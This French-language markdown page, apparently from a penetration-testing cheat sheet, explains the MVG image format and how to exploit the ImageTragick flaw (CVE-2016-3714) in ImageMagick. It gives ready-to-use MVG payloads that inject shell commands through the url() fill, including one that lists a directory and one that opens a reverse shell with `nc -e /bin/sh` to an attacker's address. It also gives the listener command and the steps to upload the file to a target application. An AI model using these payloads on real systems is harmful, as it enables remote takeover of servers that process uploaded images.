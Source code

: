 # MVG

<img src="logo_imagemagick.png" title="" alt="" height="200">

**Facteur de risque** : RCE

**Extensions** : `.mvg`

**Description** : 

Le **Magick Vector Graphics** ou **MVG** est un langage permettant d'écrire des graphiques vectoriels bidimensionnels pour le logiciel **ImageMagick**. Exemlple :

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg)'
pop graphic-context
```

## Sommaire

- ImageTragick

## RCE : ImageTragick CVE-2016–3714

<img src="logo_imagetragick.png" title="" alt="" height="200">

**ImageMagick** est un logiciel utilisé pour créer, modifier (redimensionner), convertir ou afficher des fichiers d'images dans un très grand nombre de formats.

ImageMagick possède plusieurs failles, donc une qui permet d'exécuter du code arbitraire à distance : https://imagetragick.com

### Pré-requis

- ImageMagick <= 6.9.3-9 est utilisé par le serveur web

### Exploitation

1. Copier le code suivant, qui permet de lister le répertoire :
   
   ```shell
   push graphic-context
   viewbox 0 0 640 480
   fill 'url(https://example.com/image.jpg";|ls "-la)'
   pop graphic-context
   ```
   
    La fonction `url()` est censé contenir l'URL d'une image (`https://example.com/image.jpg`). Ici on injecte le code `";|ls "-la` pour lister le répertoire.

2. Téléverser ce fichier sur l'application.

Comme l'exploitation se passe au moment du téléversement, l'utilisateur peut ne pas voir pas le résultat des commandes. Mais un **reverse shell** est possible !

1. Copier le code suivant :
   
   ```shell
   push graphic-context
   viewbox 0 0 640 480
   fill 'url(https://example.com/image.jpg";|nc -e /bin/sh IP_ADDRESS "PORT)'
   pop graphic-context
   ```
   
   La fonction `url()` est censé contenir l'URL d'une image (`https://example.com/image.jpg`). Ici, on injecte le code `";|nc -e /bin/sh IP_ADDRESS_HERE "PORT_HERE` pour avoir un reverse shell.

2. Remplacer `IP_ADRESS` et `PORT` dans le code (faire attention aux guillemets présents), puis enregistrer sous forme d'image (**rce.mvg**). Par exemple :
   
   ```shell
   fill 'url(https://example.com/image.jpg";|nc -e /bin/sh 127.0.0.1 "1234)'
   ```

3. Écouter votre port :
   
   ```shell
   nc -lnvp 1234
   ```

4. Téléverser ce fichier sur l'application. 
   Au moment du téléversement, ImageMagick va traiter l'image, et exécuter en le code.

## References

- 
- ImageTragick : 
  - https://imagetragick.com
  - [GitHub - ImageTragick/PoCs: Proof of Concepts for CVE-2016–3714](https://github.com/ImageTragick/PoCs)
  - [oss-security - Re: ImageMagick Is On Fire -- CVE-2016-3714](https://www.openwall.com/lists/oss-security/2016/05/03/18)

## Todo

- AJouter les autres vulnérabilités d'ImageMagick

- Ajouter pour les autres types d'images d'ImageMagick : PNG, JPEG, GIF, HEIC, TIFF, [DPX](https://imagemagick.org/script/motion-picture.php), [EXR](https://imagemagick.org/script/high-dynamic-range.php), WebP, Postscript, PDF, and SVG
